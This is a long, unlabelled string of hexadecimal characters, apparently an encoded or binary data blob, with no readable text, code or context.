096327e67c58bb58a2c989ed96c4a88853ee11a911aaf25d45cbdcf4d20e59c4bc9c3c9850e987bc62a5aed2c04c95091bedcfe23c0f773ade9d0fbf480146c36bd8cd7a1b4751953ba987ca054e4270ee143bcbbd623a6421a482b03bfd5e6ad255ca15e470872dee62724b84156898ccde4cc2693d3f74774409f9d0214b824ba67519c2b3e7f81c10fe40ea679e981fbeda67939a424f3b51fd9e5faa4bbae41ac61911c57a261a90bd7d381d7ee7a762c4aa54b10a57ed596f8dfab5e7abf0fa3c1490e0cace4d4f5224fe5a3f97d913eefd6278c2e962b03b8bb289560caefe5a1733387040f07b9e9f8a39a7d69e1c7d1e2b5b6446e4dd890d5392d38beb6f18cd52535be0a85fe854b753a3e39a5e70af5b3b7030a843e13ac9c7f3d20f804d09744406a15e0168212f4e0fa81095945efd1dc54a60701d0c182fd2b6e8e1ed0bc09c15287e1a1a5b7ba05270c493d0c8f4ab670832903c079ee16ffe73672e63e7a8a8584282859e0bf49d73d849a8020f88f2c8a1c3f99161c42e043c89d5044fd0a3d55f175e2d378dc957f0bd7f052612226bc791b6942fb516d1ea8cee592b576e9e0872045ca9943f4c7a92999da9a44aae8580e2b12a898bae56a92635fe6acd32d28138c2a84a56ac53c758d25d738d311f0c0247f0155d655a303ad5a39832fa6bcc57805ca47a0b63968ac369e62fc1db8e78eb36d848b50bab58f5b53bd7a58c86ec0e7c87ffb562f53e7840072204e8bdcef5db09390a16fa14c8c97f7efeecf8b69c79fde3138646351ff0b6a239f8e1970ff7ca8b403647062f8e18de8aacd17f2ac08b3de7ee3dc7a7d113d31ae10742d3b8e9d794040530f30823fc91bb5c14bf016715672ee28897711004bacd3d891494812dbdeda7760ae423294261f5e995187abee7b5df5813208b3ec61b2ca151027aa5a0536ab7399bae01c9b86fed7df48e3a1f8c7e190389e893f5ae57d518181a5202b4f79724e3359482b91aeb5fb9ed7577eda45045eef1505431c9e77c941570e2542a0390942689d403b8b396758c0f93c8877948b900b1b04a37a7b10376acad5a6ec52fcf86303e78a7548283b9827dccea2fe2c26ac6effcedc3389bb2abc06745f7fe25298e9f5435edec428eaccdc85295bba9827d2b748af8c1eeb68485f0bc4cc177d5d6df9878fed6aebf152ab65bc53dd74bf428caec4943eaf381a8e8801326574f563a68fc3e2169ad49ce3f3e5e59c00a84261c551cde2d4426ac70d920369fad993a316454cf89fc1f0458c0840ee6a0583a491da8e9c6d791760c26126fdef3e71ea5aa447db5c137f974b5d41c1639b7d431b471ff6a407230eb0786f8b31bb7c5966e1b4f5abaa107a2b283b673e33e496c2af1940c3aad1120fde35f7dd0b537f13d8b41b8193aeb518d552ba8ebbaa3f77a59345b975ddc3bf7a995f0ebcaf4515ce0081f1403e021a155b8011eb9eff8d40fa41a6abdf2d66f7a95c5b75df3d1d726191b0f13ef3bd4b116be312172a2ea04594bb2f31b371ceac9e4c2372c4fe6d439c7f7800b76124dd8ce13e37c3c2879e2d793c53b2126c37a9ecd0cf772232f0b25916f9dd69400f85580fdab223502c690212224b2ceff398f419ada36fd9a00df38d34e9741186ec07ebf6f71c091427e78dea1a7ef5a37008216e00eda6da4f257efabb2059f6576e2acf9ffcc45acc3716f1b907ce51d6b661f23b25b7023e5b09a818ea2ba45ccaee637a9ebb73cb009c5430d56b34e09eed987262300cc53aa131520fcae2ea4bcadaf3862659b257febaab7d84cfc85d10689d2553030ec5ca776a0f03508ca4bf37bfbbe94b4520dc10944b859d2d9dac717fdb142b07456c16579d7a6403ce00cd7569791e0731d143691cd4f03057586cc33ae65dbaa6f068f1e3cec0f0271f02a0a7583f9dfe802b9a37fa82b8799dbf083e1ffeeebb3beeaaf79723bc3adcec10e35b1ccac2d599d84cc8e70a0747b3d8644839d01a0876e9f65de414afa53dd86c379943ef7caa197b85afb31a2abcb2d4b216a4100567cc89d80e6b47ebe167f1a56247cf55078e52c1f6095321c28d411c6259f83a56abece2bf3fe16cb3e39e6013aa2bc628cb854ab5ddf9f0aa9c5d4380074e000fc9850e8039e92c52c3a0bc1fad6972158b7e56e6909ff637a5513776efbe2d8f0b4c01c458ca424f0dd0e20451eea996914336fc19d6e2739864909406f0af9c2886acefba8c692cff6971db5f5b471b09969f916332b7b3f4d12d0fbf0f08176376ebdf518db9171fe37e04b5c9f0d64fe9c7d61968ef01818c95c2588bc34efc6acf2925a5fa39fd8bc196332656eade17e60a9fa012bac47ff06bd97e7ac34933d048326119b3ec35356f9cbb28a5898313e4a0031b4e0e4e7d9c160286e58318885e953b291d9b4390c0b588cfbdc87cf80f94d79c3f8e3d0d495ea1aa7c96ff8a47c7e303a55066fa19fdb02a3b21b5f1b16ad4a1a29ed39c320a1d0d467fec35b2dacbd34879b0c5a5904dbf90c6680e67cf9d9a3244d3a8b304052809c73ee6c8809dfb3cde03b8aacf13e48b14424b121c96fe0b2ce74b610369e234aae0e55daefebbe817cff1f57d6f86e78daca64914ef381ced5a1d624244023dfbbfb6189d2301c95e5c9f49bb115197eb5e6e6a3000661d6918bf1f9fc382269f1ad2384ff492fb0a900594be858b2fde9576c41821829c9841e0d70fb6444d369bb8791bc025b91e592627a43e6269faed4dcc0feddaf5db5a8cfa165179583b9bc71b766264b93a7098a19f8cb5cad0e3689903ae184ceb2ade5ccdf232bd1facb3f9701e0dc59812ba83e394fd98f85181bf531bcb54c37499edac2d9ebd3981c09d4460c52401032cef76b2b89add02debeea01c3942d19ef8b0d4f32463f81205ebd6cbed1541855c4e23f354ac02556bce3848cf34d5a367025dffcd83ffc581d1151435ae697a63dd02722bb92e0b3d09cce8b63f5063085e7f9c07dd0568ec7353b64e3ef66b42b82c9b70ae5d726e73636fcff4139eb3e15a9426bb26f86e10e4d70115912893780fed1d403e35d883704453ff0d1311fb6b5bb6b74344152b6cae0a97e49a3e4be8a8d7079194d32169f181f940d1b5a729ef55b24e2ae33e0ab1855cdf5080a0eda8e481d6e17c25e1ac292007c1058ebb3ea1a050da78f17d2d39c24d2db8022be01b7b668975c95bde803caeec52d406529b2d658856d93fa28cd1625128a6e1c216511039228487b810ab1f6f8c17326cc582bcdf8b7c9c30e539d7220151ef408b5f3eb1fee5da33586fc4d20f3878c9f644fb184336498ec8492f91910eae8c17f959b5c64525c54bd30c0a230e4eb6d31b6e53a5a5bb0315f76269ff9995a305531d9a0b5c07871da21f66d784580403f68908cb04b75347e0c97baf0554f808ad940f6ab7e9916c6fc40487e4bc352a6975037cbb5dba57e30a4b6e7f749e8251d2db56fdf945f9473ca441e1493fa5ba6ae207befea3d27a6c8f4e6853a38d27949d18a18aebc6149dff1f84d9b6c7950a26e8c72dcccbbdeeb3b205b11cf069e4ab4bfad5fa3dcf1467691f7c3e12fa6588ea94e8c3a52dbef7a380c310f2e5120e3856785becfe3e27f222104545842969b30efeb25dd09f2c41973ea8b0036eb08a768b1cb7d734ee5e980d0985dd09baf06935e1ced60564cfef69842c8766e9396102f1c2be1e67cce22095c053e36489d1f19289213e86acf1f2b331ae5caa91dd3dba935e8bdf1ccaac11c3613680cd0f0f435ba18fe7f2bb60708ac07e5f379c92ee89cc8f910339974b3112ff63c4f0eb2a27b443524a23249f7606161a70ae55b93c0fd106d837017885bf165233fce069fa2dbe73d2f3ce93402832507cf4686f792ed4feda20b493379692540763b65af9cfeabd4f8bf8aa55611b374ac76ceca922e722354d200b1d3aec5e3e1d775958eef80d5e5ef9744736afe20a0925853e804ec7413c1f1de6b09459468e5bf5b0f93dc3697f1153cb7cf2cfda445b0cb8bac84252db497571a72f66ab26e78266f473a1e5d33370555feafe14244ac30e7b02d9e218afa9400ab31b4acf9d743708977e49c7b2a569a0b77d06c9be3440300dc962144d7382d45efb4318c630c848ff21ad8de89705755460f7628bcf232b67df828df59abe6a27a4d98b653193bc05a55ab9caffd0db89e035122a82cbc4cbc8834a13606cbfb32a29e3940e3ebf0c7a35613e705cff82683cec60771e857c84a8c6080a92f2d08f366085fa59e200082a107359da4749c2d50b70c34f96ecb0397b2bb19283f8fde5bdfb9235fe2bb89acda5fbd92f65e571e84c884f773ac9fdb42e17d8fed82916fc50c662327fda1d6439da5d51c2c8c23522020071a0515e91678a26c7a5418b9d5d84cfd3eefe1acf198a12de779f5ada952d5df770804f36393e609d33a3981f2c5a3420dd62dbda1c23134abe0a374774d9ba33bfa8daf85399edf296f6bed184bdfe47c22ab70cf5157a6c466bf1480adc75dbfc9614144de53bf87e8fe82c94c89f26b550d87fe2272c583b213e53854692ff218eba227b2f9ae5b06b88f4fedb0612e2d67764a93cdc1edc8852514b419fbfeceaeb120a92036428f3805aa2f9827738cabb76e39676609dc441dcf40f4a493066ab2b85aed98d0471e08bf20505629c4bc407d87544aa35e2e3fd87c2b1c892daa15a537e00a893efe5a8d24903bc6531dcdba112fcc56e5401c88e55f6e58756990a5af10bf078defbc1d7d5c498f070fe3a43e8bed669c4baf87a6f4946cf845db22561fcb142b28fa328cbff23b9a029838d3fe223eb44c11071c08ee89e5c99ce820b9e81e1bfd576db0e37cc02b6bb02a72ecdf284bb03f434a0bf8cdd4f37e1acf4221907233d4a876d1d85843160829805fff9f1bd15b63a2ffbed0f90feb6750a88ec2c54153ed358dccefdcb228874b3ce795d67b856fa14e45fab594c57e4f88c756004ed0f2dce05f688a2fd146d1b83b3ebce66e6f0eb1c3319fd0c36569819792d0be7ee6bf177c6c5cfead3f74de2291f6016dc904e4ddedc7f6f7b1a08428c0389971df6a827027c2e044a9ec21259399d8ce47f03f03b17a77b3b2b2bd60c7012222c7fdf4f22cf2f1dbf4f7e962b0d911e388388fb3f546561ac6bcb06b0dff90617171a3cac2e9cc76035f15ebcc1fd272c8cdfee226fb05944dcef79e16f6b6858a9cba68ecaeed021f6cf6fe7c5314990099949188e7c56b62fcf96ca77daa61bb33b6c23d49b17ad01de0fd07b9442f06268c45693049633a91284a9202c2fb916fbd708746bc80d663fd9514b75ad3c3f54ca0d9e9e605927ea870d90520ea0ee0083897db6f050980de3b121fce74be14676d9e2aaff55485324078fa2ee37822e10a562b52c633919a9c4e3037c12e5fbc043b14daab587a4814ebb3614da279b6f0c278cef89cdfc82f762a3dbd4c516cf02e4849608403f2eb5895574938b24b23e514247ec3622f2307824ab786283b53cfc6ff77a8710821a1d56a1e4d251a7a72daf39046f6ae88933c7cab06bf1db9a60757765fa98c77835ecc9dab9224628ed74a48bb739e7a6a444c5502408a62c6096151dad606a008d50126d315a78349249eba8c8fa0eac9866f7407bc26c2f5dd65070ea73c383550421c96fa34549a67703866646a648fee7534307371307f4ea3827fb71258f833407ed7edc397fafd6e67e74f4c3d8d25247541cd2de95833325b2b6345b0c30b5b8cff419ddfefa0c8e12ebf5f538e374676b65c27c1e31c7c1babfa1a2af2519bb6d593fb640a25c567882838c6e6a3b6713ccb7ed44aceeceed83c434208f3779f5f026b1a43bff41a4084effc092c0f1aebdae29a330c474abbd6c3b0d1cab2eb3c988e53187e23b7ca90226665c9e85bcf0df849fd0799259ed62de0ca3198c9248e7af222e5aa6dcb378eabfd4078de6efff4ca097863609a54ba93f2e008e4fa0c0f1b04a1954c91f7b058bbd9ed06d5fe51afb8a2b166f09d7c99bee5ada634bd146129a0c33373cfc8bf7eeba6a81734d1a9c9689c53c49d4c7d721f8fbf63cd22a98814398dba35791bf5606c94f398c920a9acfbf3246bac2fd5f76bfff584a7b178a67b6710443ca08520ea099f07f3e95a21273bfcac2db07d722c05a598d54cac5f50f3d9f820fad76f8c3cfa4c546ec1aabf05d13054d270e440d998fbd708a7f7533f06bb0af9c3380f38030fbfc2528f1af4dcc6c23c96d9b94155734f02a982b977d0be7afe83d808fbd41385bd6ead81347eedc85b11b5b4593f6ae8d2bff405583f03e2489868ddd2560924fdca39328a9b3186af80938023064076de1387b8d770bbcac0866a2e9a2c1ade26d62ed757caa721b81e53822af091e3b92d5bfb4bf1c30ddfaf4b7e5376ea28f702504289cd227d4e756cb5a656f3db59083f1ec9313876387d4fa96672b1bfc7f5758e5ceb73867c0d6e0b077690fff8311e7681f189cfa05ca7f32e9e6bdf9529430c986e85f9fe60d10c3662991b5070c23166c5439232a619f485bbb7c234573213d1a378665972bad3ec68cfd9ae12d887c08113695ed4ed6f066a3574a2c23aa5ce1d07624af4241b8fdffe0ece25bf429e8a567f9b4e2c2b12ad53f9821d7d4e30a13c28b5dd1d43d0a76c09ea2a5cf7971527936efd60ed44ef07ba66ccece6537500374e79613944799423cd976c0436533e25265fe1335bdfdbed124f2cf0562460c18c2b6e86a147753caa78a0131f107fcd2281a0bb1f7a5e0bc559512370e5e70b83883700f94a72b898e970e5b95b4ba41c64639a74587a6b1c910c33c778a1dd2382389ad509845962b42297564f9db947e1709ec53a3d5a72f425bceadd4c90c24a2179d591a5d680ed1f27331653c8f131699072e0d1e8bd20d615ea72f38024b1ff10e14c5167d0e40b8447590525a84051083c53d92935ad29588eaae3f3b2ccd95208362b90076b488690def25d0edba563cf3c57da121a86588b33a93eb567d6c2b80d5553de281b749278f9b9063d051b27f22b7ea9a7e3fe58d18acfbf3ca4c682efd7d87a342dbcf4f2d1ca81b981d27ac5c0aa4338a7f548a6d497311e8ac7a6f825e466c3725b63ef8ce4895a7f8c05656d6d6895bc8466ee6e9178326ad611fcc8f2e8984b695cafc9d443c2109289ae0a4cbb5f5723774c60df63514c2021c5c6e7595808179b392842a2b828225d139d1f805736380925bd3212a090acc5db5e156b9c1e1df32dfa0796c543c4f761b759ff9519d5823cad6008b04317274baf2f5d7984e33ffcf6c295e79cf69c6074f093e4c713773d2b2f789ab52975963c8cf244056c488a169188a02c272365091d3f3db3685e28d2bfdde8f1ffb991bce543de8cd25a97c3145a79e2726c32424893c00fac4f2422aa78b0579a209385ff68127d0d45935eb6a72af8100f04c42e07709465d5fc61a8cbf8bd8ca5e400128945866acd4b91c5eb85eea46b1aa28a374a0c6bd9cc6203576463239f73f18536b5a8b982e042783786acac62c69d6fb2a31ddd04e7ccbc2b28638621c3721be8ce4d906233d015acabf4583ca2eb05fa1871e85fee64d83ed50010aa963e6968a37ddedecb1032f22ab25263968d010f68abf15e54bd0c3ce7f71317cef4bdd4af2aa8777d62bed76fa3fd78e31914d1b693752ec55f875227cf8a0c03247aba56b3c5b6c96d4155fe713db765dd5dc437d7452be445f08a21aed3d20432daff44c9adaa984fb5fca808a7edb7d7bcd8938b10e356158fad564cf719cdf48001ac34920ea237171215a472207b1e8f90e59393348e81e28ab0639771901ae81a020b1f63ef437ad7c356809c38dab67c6613c867885b8ae3157c7bb316108fe1c3b317612c004f91e83c0cc244d284ad1d503093150bc91c433afa55cbeaefb6ffa70767f6d87c2a103b046b1d79d000213af3bc73149a9be83e3d62606b7118187a69f7aafefdee80dc78c1a223cec67e921ef7127817dddbdb0767a2476bcc0efa3626b5d0a5b4818a77706cb728adaf5dba1e12ceaec92f77d32213b46954b0cc5d965ba65293a2bfab360360941a04aae1de9a10de96d78856f3d6d2198e1b701cac05433d9a2d0a3461aead520eaaf106c07d8e79c1e6ef30d91d131a5002cc6806ffb3fcf70a6bee52f719a47f095b8201c2eeb6a188814f8b60a64e0bbab1ebb97fc948476ccddbb221db2b2cfe04f2e09f666039ec5e98c0ab20a81b398bf95808cd89c713bf87c0ae7cc6f60c5fea6e3a2f61d8b9aef04f9d8e69e138e72ba2e2451fdd611a5fb4933b1aa5c4e04a18a39ca7444e65acb4d26a1d00c178cb66760e94943459f788ab18405e5eb4ec3d7f5a81fd8930b1b85856168a6164edf11f357dd09496376258e60677cad0e512f9d24967a391e1d1318f9b39547f42d3a6b99bb1bc0265538fcc31c7f6c6d06d7ba248aaed5fda1f7ed35c34830cff2e1288067d2da1977b44c3478824ca038dda6a0856cebc94ee8e7eca26c800fb0bbafd2abaeb79e72f31331c4e1e9046ea5ed469f1eff0949dd61a543542eaea37b70249f03111b0d3e0f18a690ea4616f2704cdba6ab5f11f52a9fe4d3f512bdc2320cac3b98be3311d7f277da40b382bddeccc51ac2b8f52ce842068d95298d3b90f1af9bd7419c99e48f5e656478f96afba2801f084605014e25bf5236c8fea738331dfa1ac06cae9124d45f7b173a2b1f405f6a75720d39a1d82b8050d4213c329f858fbcc463a74dec717fddb3a0a57f84f13a57835ef47deb3fda944d8195081dccdf31d6dde06474305abfc6028af4e02411dcc8e2957cc9b84be2f1c2bbff38f67cc202a64bea12ed86f1574632fac812c3fe7ae6f670c9329faacea63787311ecef0e8a3bfa3c4f9dadc769fe7c5ee5ed5e2257c796ba7c7c8687b049ed6a994089d2c300fcd7704cc9fac1cb5eff96efc6d7584c69dbcf2edeab55a49469a6f4974170e717111d21e3d0c5268cb6f844ec7885507ff941bee87c0d1ce094d68cc9c279636b76b56a4c1bec831e285ca6810e64223bae9a3a14a1b221786ae88282e306faa27458abcf602c15617173a025765c441ee676b12a04904b160aff9995507d2b2556ac9174b291c403a3441e24143034ddd1fdd153682b6634962e69e4583049d49cabd2df6226b4b1da516baee124dcaedc1c40aaf3b26e30e7c7a1ace2bbf1f59ce4fc15ea010fc2bcbb1c82752571c598cb9c5dffddc0053d577673d3301061820ab6c9a89a40ac6f78198ba6e0e587293934dd244cd2488e97e8abd18729aa110995821361696b3c53ada24c6a6c86b4e9641736b37473c0ae60ed138d52008cfdab5cbfca3b85de158d785fbaa47bcc7bc95c546f6c9dca1c27bb47b6b957e34782fb7dc27536af2b16be84ef64aca5f74a0719ee2ce0106aa55b5a8c978c4c1a4345c26a8e7bf08e1c84253ade407917df8e21895de29f062f347c2be30198de2115a91ea9e5ed0827f8af473421a3060872203425267f824de927fa3037c63b45332c463a1ce91d080cdc6a2afe35c9e97d404a105aaa77a509dbc65115cd0eea78d0a7460ee9d2553ce25efff9b04ec0171f5a53dca340b1f58c614770bd32274d98d4c5d25468d1811c061cc3dbe73663ab6f1ba6b51715a3d0bed40694876a5f6a17a36eebe7081517292fae4ab02346c51cdc599c08e42a0868389225a2f00880badf165b74b0c4357173f745a34e6dd6349e186cc0cc1c3870d0905f3bf828469cbe3bbde92f45ac90c53be50362971b6130308cbcb8a2085d95e58a3d6ec3bd2bedce05ef53d05eb6297ff0f11b54a2c1d35edfbb7415d37b419e9678d5bff3b5597d03b2a14a9225d2a3680fc9561df922cdc37c49a40a8a87493c283c85e0544396181fd5e0cb7ef70d8d3d085e0423a86f937aee5c538b6ce8c98ecc4b7e525987ae0f2d38b7ba811e42888ed58f5df68eb7e1e60ec5e0db7b6e35703c549ef7a0715f5c995fd14e7728039d651b833b8b40a32981ac8870a65a3f8148ec7743c6772618c74a3cc21d2536e13b537016529c5bc026b976dafec66b87a2a1c33d51509a3388be65e44c708850e1136c29921f2bdd32a65cf8f372cfa17d9fd8374004f6e7adc43b562cad37bc986a26bbcaaaf523c8b4b7043863744350d95ea15d108b2e822b3af6a85253fdbf52b9552665259a64650f7144ea05683e9151d06aaa97807933f7948a72ab18469897a551fae0eb9f1d654d878a8b291f7bec4300396c5bf2435573bb6c52010c91f499157e33425cb699b5b0e2fe117a95448114a131b91c47b60fff3347e89308d057a39100b15f939277a5e8b148fa4397165783b1a8b8d16d7f2611182e009875b39b3a34ad22135dd5358224ead0ce32c38aeb97a835c8e5273b4062653e4628f845f6d5b6c6f65ed025b5da58eaa0e18feb06e665d711de6b27b0365421de31bb38f38ae380f4a0e109013ff2d9895fddadf67b8ee61433453d7f962026bb58102c84eaec5989881aa1b0c9a88808000a2e5e49577c1091637894cd97aaaab352e3e502f3ef37c33d71b3be7e1ae6bb711f1f757006d49e9296ef7cbdf6800eb3d77b6220685fb335979477774220797d6dce4a425173b0ac243107969496d47b1d6502f40e731200fb73d5ca2b88aab8e3953ca478eb597e0aa1ff994f63ab4a055561e903c3f433bd4f72b4ced696e195b05adcea5e1a0f1fe1c673e851fed233ccd13745922e1d690f78d3a2577f5476f3985f8f3b7a9cad3fda79d8572000e674aee9a6ab88ebee11933c758ed0aadf0d4e092201139c112a870f14f7d4375a88a952c4febeb91eb04b5d85888856b708c77b8217207a10c7f7ae241b091ce91acc7ba147b3e1509a294a4c85e09e221b667f08f750aa670e5bb30659c7f8824651f4f2b638a8c68b477f5d810847919272ceb2e6f7d48ba22ae7db582d847053a4c6e166c846b5dcbe558aedaaf7381c3ccf340b4ff940ab6fb25672a9428d31ab51996fcd82f9487c3347a66f72aa126676b5fd5db1b7cfc0b4d6974415b18b8b541b8d9af028525970f3cb15bd08aa62375ef71e233a509a051aa578d7db62e0846a4ccb51395a992202c59adb97063f0045dc529f69dda32239c6d49e0d7a081705a78afc891cb8d65af7c4bfc757305ebd34bbd2c8b396e8b0c01b262a3caea7e2b596e261e72bab6adf8ee8342cc9e6dc881ea3238060fb4fdfd37971cc5657d16a2b90fbb736048440da2c0437267b3db6772424930cba2de60669d5b5532c9a69a12e949b5fe0bf20ec66892c58ec9f690676cf93e8d62601730c4cc6d52fc79d077efadcd6e8caed2acd3793726596297fcc82f0fda355d8e36f51f044955c3cf2bb9fd410c4510e4983558a226ef423132cca74d1963f792fa9e9636382431cbf177dd9a276899e07325626a0b04a81c28456628d0f4a454e346392d0209d482903225c47ae262b390f3b70ae0f6c865d9eaa3abecb25afd7108350b81ca1137c58d608a984b61f79cf74e742b5d399aed9d8b9ac2bf8d5c1e0bc9a1308ce386bc5db2af49cf54549baf1ba6bce5af27a7edd91a62d959bb86756748d32b97d8a87ea1f0e4feb86764aff6188d922398ed3d668492cff2fc8f193447f707a8226c6944131cb0f068c4340e7f0ee134c21e8ba94672fc0981dd14bee7f27dbd532dc8932610c62fef2a02d9b73862f416fc64ceac5f534cd7a79919778ab367674a123da89d144f304ebdfddd3cdf355202a3fb4b5cd504902e05d00515fb2cf48ae13d013bc46e2c6f22b2d599f1a33e76a501f7a314526176312eada95145aeaacc96e4a9482867146d93c670f3a958bac26abe9c725f00153e07519bc15e68005a5fb9c282763fc11cf340957244512f4705f18e691b19df3eeecb1817cf7de0f816ce6091115458c05c1cd9251bc527e15389fa623e8ffc8998dabee88d726bdbb489d3493789de055f08f28cd58897f988652a4c4ff6c1b535e2a06b0c5ba5e0e46ef10799de314637a89efc961309afce245010d041ab7268e2d96e1b0fb53e78fb04e2799c0318b35f62c5b975a5a343dc7a82263f2e68cd8833568f8b37953692ff2ab1760636dfe4595905cea36bc71a51f0a31004f945c3f87c2f3aa94c535becb3f94bf4f44dad8d862adbef47739a51fa0d26c71307bb446e8275e69397f74af452ba45ab18ad63e676a33bc1d46df0f973c4a5c3c15ad9fd2c3cacb6c200f75ec044cae775c6602a92316048f9b1694bb389cb7a337605144e198b351110cdc1cf8e05055fc9a55b222cc457564b097d3db1dcd8ee1281994b2d0dc276b45a1f92922c7634d671cd872d369e186fa9240cb91e7e633012987162c723fc883c3f5b8aa8a10ef622d79e442ace81ba20356641ccb794b3692b736573cc618706b27a516e36db7ab9ddad6931f41ad0583602d427feab340381ca97ee288c5751a66eabf4541d32786acc039b42865445b4a4944b2960a9599f1f45a2490751d99946760fe3804a3a52863b9f7c4da5e9633e737b5f10f60db64a0be7a7d56ba43fca898cf925852c168034bdb0e5d910258de87dfdbdefb50d4a96181dcf3f8d839acbe967bb20e1f83f80acc872fca0c81ad36b0e56e340a37e4c6c8205115ff4bbf5e7abe89666dd279710d8fc0ab6b4e9c89e8ea1b42b89afa33b5670e8e9247e3860c95b10b6d5461e6ce8d0bd14fdb58bb0488ae5e3b0b2be8840612a16aa72953b12db23a9f2201bd73f687a5ba014a1cecbff3ec8924fc55bf0587e6172b5d87391c131f23f1c9cca8a668f291808dc83079fa7e0e4be05569f3146566495403b22d6f5ddf473c5b1ac2b6500bf24a497f193fef46622083443e35487ad6a9f64ca244a0d19185978a395a37724fcb66f2e9333955fef7a280799e9d8767ebf67e2a7d068b4094b911ce5cab9cdb9f7ee0155d0223c720d9e0a0d2c9179b40d47ebb63b40b22b95cb58d4da20705dbcbd1616d52d8683e9eb9b0e43f1758a878d664f8ae03e0bbb362c672137f4f8ac05a3a7d989fdf1385fc6e1ba6e3db8094741285776ec519cb742694a51a12cc3acf9147cdfe616481b268a73e0f1877bc6df429df1d6192a0c2426c21d43d7267bea553b490b891722f8ada77a5f145afb11892c532fe89975492db29649c60d6620eaa540f47a5a740acc9291d8d5342ca3b597f1301ea61e63f561564de8b33274097a0903901c95d531e9a8147e81c91c69b30df46b68ed4b56fb64128bb5ee922d44850511cf680f9ac2d32250502362066daf2c45adb6c958aa5269df467c0b3ec01ba5c5bfcc8c00aabc27a2c13231a02a588da43b6fc0efb5ebeb0f722d1c0d7216d867a315ca86a17fb42c2940faeb665c5061a28ad9565d6b612e0072e9358b3a22ae0f339d9cc2b06800f9d397cb9e7856210ad1d79d70da08c9f5edf351bd218ca6361f4342b30fcbd9a724bbe90aba903a6c4cf0fad47387dc07504500b7f484d228a5bcd2f6ed75aaf9e87442eb186f984a037c06b05e9b66c98394302201982d5dfef066e48c15cac5a28eba055e2def8eb633e1df12a45a83df61f0ed0cdf7362f311d2e7e25dfcfb7e3a30ae3e7efda461265b7b0b9389abfb75ba6777a953797c00842c9cf2ab20fb1ca2a25685d4362a0eb6fb1f23f95fadf9f2488eb65cfebc7bddda988b36a8eb997fb8f8b1259f5293a526f154125ac7f9934660b25a1a4f26c0288645c7796fbfee1db764bec381d9fb1f3c94197844600de72f8bd38dd1f3ea6789b262fab77d066c4f586574af46c2a79180466c0aaba2b99127bffa5191f4b4cdec8fe10e18ac4129800e5b0fe3ebee2623199ed1893342cc31da22b3f1ca379d84d91d1d6d2d6c78644b06413f37ad31eabc6e132dc9824258fc7a9a60639bd166413d36c03e25b261ae9c10c9a9a8c2648f63f0fbf83fa71afd03111720a2cc4e521a60390db80677e373c9d6a3f5a9f20eb4d5edf82f4b7b67deb4428cb8f1eb38bb3c9e03a73004193e003846148206fac61dbc7363fadf1693d70349e953627f0652fd84ff83682f3d4912744e12b1d32165c4833d78bd69b2b22cf5a4d43ce0928f386df4cf5267f921af4b7cd4f0d7e2b67a6fd3427e1a4231c893d367d29de3c4f0204f4069f5b392470a6aab042cea9aa06fd807bebd00cfe789c637b49d2ea5bcfb32333439c7ee47b1df151f8027407ea6120ec8b8ac0cf128db3826600bd7bbb3a977b1e77ccd7a133a4cb89b333b2faa32893ec36dab5448fea605774c40b941adf2b10e7881ed8bb5b40dfa926b52f1097f416f05b1a3f098cf48fe587bfbc546bfdace610af87fb6f0141e2709e98098927d4d20875e209f9e19302659c8973ee4f202bba3a79d63ae7a70cb8f33e361d192db0c1246686949464c0874880ec6d49c1de60a1a9cf5d990000b0126b4ddcf776c08ca7f2c0fd86b478e92871c5fb8279a577fd7ac4f79a2d81713295c3eebdfa3d0f1b9a7d4bc4734fc0bd1b6f89c11905fb5af404c2d40300c5ddc6f2f110793d8c405526ac690da4c4b9754f0cfec5c278b32f849afe2273efd2ebab3cde79b2c79fca0079002edf4d64270d2f1134ad5c09ff35d848d107179afb57cbd08d7acb8832ecf547df838c04ead1cdb30d2a392f5d4e275cb246c5ee7c24e9c2e28659028caf920b83e21138ac41fee202fca96791b09f6467b6306a9b54253935c32bea5c10569c5bd57410c56aa84064b5f359e964a957311ac812952eb37831e48ea8588421fa353838e62ce71f66a738fcc8ad32e5d74fdf7880ba36cf126a4b3dbc3083121f852118b2939841fc60e86d3ea0e17bc9b6548367c8e500f539d45a7d0b50533b0dcd21fbc91872f86b50858c85f60165561c025ffd91b84ac8952eb5af432fcdb94e5242f43032283e927e35c6c6ead73653fca2947779791acff5fbb9a5f2b52520c145c739c6a26484003b6ff298f000277ebea133068079d3d4852b2761138e48abb9fccdeb3f6f5e8106ba8281c4a775e49e4a7b01dace69843e4e8964ea9bb8a7b8fdbddd678e8a49ecf4c75b79f09755c8cba01088044fd4d704c36785f2349d55bbfcc76a628861c912de60e15a1fa9f43ff2d2835c5c06b94b1bfa44881f9ed8f1261e945659579419e97fc497077c12d700e0479b07e533894b6837c1fe3356249b54f4f33dba4e6f7fc9c6e747268f482bcd194a2bfd756a99ba1c029a19fff7bd57050738191ddeaa5e5d426b9ac4ba463823e4cf0c0d5b54e2e0dc8eb64d260a5c38657456508bd88235a9ab5693411a206b4148eb965cc64ed107ca84de59ad98821207dfce88653b1b0bcd77cf6b1abfd7652d9a9da76123a37c0b897062a9f1d8818b57fee2495f90f80743e1889318b70a7beecf3442a2fcc5357bdacdc48381154ad186be2df51e00b1bbc4a70223065aaa1d965598b5d772fda92e22c31c6503afaaa20f8403d3f514899e4fba29520175ab3745706116e7a84e7746ed28a8f413f7e18e76dfa91ee18f98bd61325b012cc77be988e0160564e114e8700e306588dec1f988a62c02f8506df5b04e8714204a114646873e57635adf1917a0262e0d5351e4965083f47ecead4dd64dc9086babd50dc2d8437d6a57e5d35ec86b42b0e0e7ea82fec637d4280e447805a3911d518c775cd8d716b4bc38a6094c4683ccd1606aad79c9aa02b78d0adfad0098de5e6e53a68f68bcae0409602b7ea98243dca24b3be6c02702996e08e19825d021b9198ace507503add82e16228532ec9b87c4e18bc6780cc6f7e7bb7ee8a90eb0e3b31066e5485fd0020656d43e69cf80febb7de34c46e493b04a4a27514645b1136234ded4c0420bd439ca2488cc738f17a9c2d56a201f93f7c4a227957448294d24c07f1c01ea05f754e8cb98feec905b2c26832ff3c620ca3d1470dd19785af1d05ecb8fef32be15d38085c6026bd50a262d320bc0823ab7ca380b6ed63dc60a570e10378ee6ad718abe0deba5d55559440173dafa1b67d08c326f06fa5f0b1a6a999aa4933b94a50248224d4e84355c7f269bc8b63d816d57a7932465aea995e8e6bacaf9ec4f6999e7b582c78b123d8103388a6f5730eff07d310ef53134970450e62dc552e26c4cd1e9511922c48b6c62f949dedaf8f217efab573988de7bc921a590e2ffe3ea0f49816a7fa5c8624d04c917409213fc6af7859462e624b6817922476b51c7396a9004def332f87fe7fdc90881c4410d1082fce1d899e017a6cc37b71b8229e01798e0d1a5be30fcc55712ed5dbb94f67489842c919b036d52ec56db5745efe0064ae18b2262